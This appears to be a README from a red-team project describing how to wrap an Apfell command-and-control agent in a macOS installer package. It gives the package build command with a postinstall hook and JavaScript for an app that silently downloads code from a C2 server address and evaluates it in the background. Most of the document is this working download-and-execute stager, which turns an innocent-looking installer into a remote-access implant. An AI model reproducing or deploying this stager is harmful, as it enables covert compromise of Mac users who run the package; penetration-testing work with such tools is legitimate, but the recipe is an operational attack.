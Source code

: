 # Apfell Payload
Making an Installer package payload with Apfell

[Blog post about it](https://kphongag.blogspot.com/2020/04/testing-with-apfell-javascript-for.html)

**Testing Environment:**  
Ubuntu 18.04.1 running [Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the package payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg because pkgbuild is fickle.  
Run to build pkg:\
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:    
`var app = Application.currentApplication();`\
`app.includeStandardAdditions = true;`\
`app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Notes: 
- Exclude Example folder when building the .pkg
- This can also be done without an application in the postinstall script
